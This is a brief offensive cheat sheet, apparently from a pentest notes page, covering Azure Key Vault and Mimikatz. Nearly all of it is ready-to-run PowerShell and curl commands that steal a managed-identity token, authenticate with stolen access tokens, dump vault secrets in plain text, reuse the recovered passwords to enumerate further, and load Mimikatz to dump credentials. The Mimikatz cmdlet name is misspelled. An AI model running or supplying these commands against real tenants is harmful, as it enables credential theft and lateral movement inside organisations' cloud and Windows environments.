 ### Keyvault

#### Get keyvault access token

```powershell
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

#### Login to account with access tokens for keyvault

```powershell
$accesstoken = ''
$keyvaulttoken = ``

Connect-AzAccount -AccessToken $accesstoken -AccountId <ID> -KeyVaultAccessToken $keyvaulttoken
```

#### List all keyvaults

```powershell
Get-AzKeyVault
```

#### Get info about a specific keyvault

```powershell
Get-AzKeyVault -VaultName <VAULT NAME>
```

#### List the saved creds from keyvault

```powershell
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -AsPlainText
```

#### Read creds from a keyvault

```powershell
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -Name <NAME> -AsPlainText
```

#### Connect with the credentials found and enumerate further

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)

Connect-AzAccount -Credential $creds
```

### Mimikatz

#### Load Mimikatz

```powershell
Invoke-Mimikayz -Dumpcreds
```

